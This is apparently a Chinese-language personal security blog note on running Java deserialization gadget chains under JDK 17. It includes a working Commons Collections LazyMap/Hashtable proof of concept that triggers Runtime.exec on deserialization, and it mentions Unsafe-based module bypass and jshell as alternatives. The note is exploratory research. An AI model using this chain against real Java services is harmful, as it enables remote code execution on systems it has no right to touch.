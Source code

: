# BypassJDK17 TemplatesImpl链子

当在JDK17中运行Templates的利用链时，会发现报错异常。（心心师傅有天突然跟我说jdk17没法加载啊感兴趣可以研看看）
![image-20230103211557071](https://cdn.jsdelivr.net/gh/zx-creat/myblog@master/img/202301032115263.png)

然后找到了这个文章：https://github.com/BeichenDream/Kcon2021Code/blob/master/bypassJdk/JdkSecurityBypass.java

学到了几点：利用unsafe去修改module，即可实现绕过模板。=.=（原理不懂）
而且有意思的是   Class.class中的方法可以通过任何一个类进行反射.....应该是第一次见。=.=（原理不懂）

想了想：我怎么能用cc+jdk17里面打通呢？
我认为：只需要将不能突破的类全部写出来进行突破就行，先是Templates利用链，`没考虑到一个问题是有抽象类`。但是后来在心心解释说到：对方服务器怎么去执行unsafe修改呢？chaintransfrom是一个链式调用怎么单独调用unsafe呢？

所以理论上写是不行的。

当然也不需要绕过....如下poc

```java
        Transformer[] fakeTransformer = new Transformer[]{};
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };
        Transformer chainedTransformer = new ChainedTransformer(fakeTransformer);
        Map innerMap1 = new HashMap();
        Map innerMap2 = new HashMap();
        Map lazyMap1 = LazyMap.decorate(innerMap1, chainedTransformer);
        lazyMap1.put("yy", 1);
        Map lazyMap2 = LazyMap.decorate(innerMap2, chainedTransformer);
        lazyMap2.put("zZ", 1);
        Hashtable hashtable = new Hashtable();
        hashtable.put(lazyMap1, "test");
        hashtable.put(lazyMap2, "test");
        Field field = chainedTransformer.getClass().getDeclaredField("iTransformers");
        field.setAccessible(true);
        field.set(chainedTransformer, transformers);
        lazyMap2.remove("yy");
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(hashtable);
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(baos.toByteArray());
        ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
        objectInputStream.readObject();
```

同时另外一个思路打开了，在jdk17下我们可以寻找到所有能够访问的类进行构造poc。

如果Runtime.class不能访问，我们就可以尝试其他的，找到了jshell。这相当于也是一种思路，这篇文章总结了一些常用的命令执行、代码执行的类（https://moonsec.top/articles/124）

那么什么poc会用到绕过jdk17moudle并且是个成功的链子呢？相信以后会碰到。